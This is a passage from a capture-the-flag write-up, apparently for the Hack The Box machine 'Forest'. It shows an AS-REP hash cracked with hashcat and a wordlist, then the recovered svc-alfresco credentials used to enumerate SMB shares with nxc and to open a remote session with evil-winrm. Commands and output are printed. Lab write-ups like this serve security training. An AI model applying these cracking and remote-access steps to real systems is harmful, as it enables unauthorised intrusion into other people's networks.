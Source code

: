 ```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# hashcat -m 18200 -a 0 enum/asrep.out /usr/share/wordlists/rockyou.txt
```

Pretty soon, I had a hit. The password for svc-alfresco was `s3rvice`

![](Assets/Pasted%20image%2020250722145052.png)

## Foothold

I validated the username/password combo, and checked for any shares we could get in at the same time.

```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# nxc smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares
SMB         10.10.10.161    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice
SMB         10.10.10.161    445    FOREST           [*] Enumerated shares
SMB         10.10.10.161    445    FOREST           Share           Permissions     Remark
SMB         10.10.10.161    445    FOREST           -----           -----------     ------
SMB         10.10.10.161    445    FOREST           ADMIN$                          Remote Admin
SMB         10.10.10.161    445    FOREST           C$                              Default share
SMB         10.10.10.161    445    FOREST           IPC$            READ            Remote IPC
SMB         10.10.10.161    445    FOREST           NETLOGON        READ            Logon server share
SMB         10.10.10.161    445    FOREST           SYSVOL          READ            Logon server share
```

Since winrm was open and running, I tried getting into the system using the creds I had and using evil-winrm.

```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
